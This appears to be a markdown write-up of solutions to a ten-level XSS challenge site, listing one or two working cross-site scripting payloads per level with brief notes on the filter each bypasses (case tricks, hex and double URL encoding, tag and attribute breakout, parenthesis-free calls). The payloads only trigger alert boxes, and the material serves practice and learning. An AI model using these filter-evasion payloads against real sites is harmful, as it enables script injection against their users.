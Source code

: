 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

- WAF looking for "script"

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```

## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

- param reflected in form post field (action)

```html
XSS&action=javascript:alert(1337)
```

## Level 6

- Hex encodin \x

```
\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x29
```

## Level 7

- Double urlencodeing 

```html
%253Csvg%2520onload%253Dalert%2528%2529%253E
```

## Level 8

## Level 9
- Escape the html tag with ```</p>```

```
</p><svg/onload=alert()>
```

## Level 10

- Filters ```(```

```html
');alert`1`;//
');/**/onerror=alert`1`//
```
